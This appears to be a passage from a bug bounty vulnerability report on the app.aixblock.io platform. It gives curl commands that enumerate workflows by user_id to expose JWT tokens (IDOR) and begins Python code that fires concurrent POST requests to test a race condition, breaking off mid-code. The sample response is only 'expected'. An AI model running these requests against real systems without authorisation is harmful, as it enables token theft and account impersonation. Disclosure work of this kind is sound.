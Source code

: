 ### **5. IDOR - Workflows (CVSS 7.5) - ✅ BOUNTY READY**

#### **Professional Triage Assessment:**
- **Vulnerability Type**: Insecure Direct Object Reference
- **Impact**: Unauthorized access to workflow data and tokens
- **Evidence Quality**: Token exposure (`"Sensitive data pattern: token"`)
- **Risk Elevation**: JWT token leakage for session hijacking
- **Exploitability**: HIGH - Token theft and impersonation

#### **Workflow IDOR Exploitation:**
```bash
# Test workflow access
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=1"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=2"
curl -s "https://app.aixblock.io/api/v1/workflows?user_id=999"

# Expected Response:
{
  "user_id": 1,
  "workflows": [
    {
      "id": "wf_123",
      "name": "Data Processing",
      "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
      "status": "active"
    }
  ]
}
```

#### **Submission Strengths:**
- ✅ **Critical token exposure** with JWT leakage
- ✅ **Session hijacking potential** with valid tokens
- ✅ **Workflow enumeration** with business logic exposure
- ✅ **High impact when chained** with other vulnerabilities

---

## **📊 MEDIUM SEVERITY VULNERABILITIES - BUG BOUNTY VALIDATION**

### **6. Race Condition (CVSS 6.5) - ✅ BOUNTY READY**

#### **Professional Triage Assessment:**
- **Vulnerability Type**: Race Condition (TOCTOU)
- **Impact**: Resource duplication, logic bypass
- **Evidence Quality**: 10/10 successful concurrent requests
- **Severity Elevation**: Depends on business logic impact
- **Exploitability**: MEDIUM - Requires concurrent execution

#### **Race Condition Exploitation:**
```python
import asyncio
import aiohttp

async def race_condition_test():
    """Test race condition with simultaneous requests"""
    async with aiohttp.ClientSession() as session:
        tasks = []
        for i in range(10):
            task = session.post(
                'https://app.aixblock.io/api/v1/workflows',
                json={'action': 'create', 'id': i}
```